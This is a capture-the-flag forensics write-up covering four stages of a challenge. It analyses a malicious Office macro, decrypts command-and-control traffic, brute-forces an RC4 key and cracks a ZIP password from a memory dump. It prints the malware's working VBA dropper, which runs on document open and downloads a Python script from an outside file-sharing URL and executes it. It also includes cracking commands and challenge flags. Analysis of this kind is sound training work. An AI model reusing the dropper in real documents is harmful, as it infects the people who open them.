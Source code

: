 # schmerz-1

**Flag:** `flag{fA3bDt}`

Extracting the filesystem from the `.ad1` file and going into the `C:\Users\challenge\Downloads` directory, we find a `.dotm` file. Running `olevba` on it, we get this

```vb
.
.
.
Sub RegistryEntry()
    Dim keyName As String
    Dim data As String
    Dim path As String
    Dim myWS As Object
    Dim stype As String
    Set myWS = VBA.CreateObject("WScript.Shell")

    path = "HKEY_CURRENT_USER\Software\Uninstall\"
    keyName = "Application"
    keyValue = "fA3bDt"
    stype = "REG_SZ"
    myWS.RegWrite path & keyName, keyValue, stype
End Sub

Sub DownloadAndOpenFile()
.
.
.
```

The value of the registry entry stored by the malicious macro seems to be `fA3bDt`. I can't confirm if this is correct as I couldn't find a writeup, but it most likely should be.

# schmerz-2

**Flag:** `flag{whoami}`

> [!WARNING]
> Look at the edit for the real flag.

The same macro also shows this:

```vb
Sub Document_Open()
    DownloadAndOpenFile
    RegistryEntry
End Sub
.
.
.
Sub DownloadAndOpenFile()
    Dim url As String
    Dim destinationPath As String
    Dim shell As Object
    Dim pythonPath As String
    Dim command As String
    pythonPath = "python.exe"
    url = "https://filebin.net/g5lap7a613mo3x3o/client.py"
    destinationPath = Environ("TEMP") & "\msserver.py"
    With CreateObject("MSXML2.ServerXMLHTTP")
        .Open "GET", url, False
        .send
        If .Status = 200 Then
            Dim stream As Object
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write .responseBody
            stream.SaveToFile destinationPath, 2
            stream.Close
        End If
    End With
    command = pythonPath & " " & Chr(34) & destinationPath & Chr(34)
    Set shell = CreateObject("WScript.Shell")
    shell.Exec command
End Sub
```

So we can see the first command that seems to run upon the document opening is


```vb
vbpythonPath & " " & Chr(34) & destinationPath & Chr(34)
```

and when you replace all variables with their values,

```py
python.exe "C:\Users\challenge\AppData\Local\Temp\msserver.py}"
```

As with the previous one, I have no clue if this is the correct flag since I couldn't find a writeup, but it should be.

EDIT: So the command was `whoami`, since it was the first command after the remote connection the script made.

# schmerz-3

**Flag** `flag{fA3bDtO6QL}`

We find a file `msserver.py` on the filesystem in `C:\Users\challenge\AppData\Local\Temp\`. This was hinted at in the macro we found in the docm file.

Looking at the code, we see its some kind of encryption scheme for a server that XOR's it with its index and then converts it to base64.

We also have a pcap file `chall.pcap`. With Wireshark we can scan the packets and see base64 data being transferred. We extract the base64 data and reverse XOR it, leading to commands for slowly building a file `a.py` by echo'ing base64 strings into a file `file.txt`.

Decoding the base64 strings in `a.py`, we find another encryption scheme, this time the one the attacker used to encrypt the files. I pasted the code into ChatGPT and it told me it looked like an RC4 encryption schema.

The key in this case is the registry value set earlier (`fA3bDt`), along with 4 random characters. Since we know its a block cipher, we use 4 bytes of the ZIP header that the program encrypted to brute-force the cipher and find the final 4 characters of the key.

```py
from itertools import product
from Crypto.Cipher import ARC4

plaintext = b'PK\x03\x04'
expected_cipher = b'\xe5\x74\xca\x32'
known_key_part = 'fA3bDt'

def rc4_encrypt(key, data):
    cipher = ARC4.new(key.encode())
    return cipher.encrypt(data)

charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
possible_keys = (''.join(p) for p in product(charset, repeat=4))

for part in possible_keys:
    full_key = known_key_part + part
    encrypted = rc4_encrypt(full_key, plaintext)
    print(part)
    if encrypted == expected_cipher:
        print(f'Found key: {full_key}')
        exit(0)
```

With this, we get the last 4 characters as `06QL`, and thus the full key.

# schmerz-4

**Flag:** `flag{ajeet-mestry-UBhpOIHnazM-unsplash}`

Decrypting the ZIP file with the key in the previous challenge, we find its password-protected.

After much looking around and dead ends, I think the password might be in the contents of `notepad.exe`, so I dump it.

```
…/Forensics - June 31st/Challenges/Files/schmerz $ python3 volatility3/vol.py -p ./vol_plugins -f memdump.mem windows.memmap --pid 7536 --dump
```

Then we use `strings` to get a wordlist of all posssible passwords, making sure to include utf-16 strings.

```
…/Forensics - June 31st/Challenges/Files/schmerz $ strings -e l pid.7536.dmp > notepadstr
```

Then we simply use `fcrackzip` to find the password.

```
…/Forensics - June 31st/Challenges/Files/schmerz  master ! +25 -1 $ fcrackzip  -b -D -p notepadstr -u schmerz-4/download.zip


PASSWORD FOUND!!!!: pw == 83KvvO60Zf69Yyq8
```

Using this, we extract a file `tv.jpg` from the ZIP. Putting it into aperisolve, we get the string `ajeet-mestry-UBhpOIHnazM-unsplash`.

The organizer "forgot" the flag and said it was good enough, so yeah.

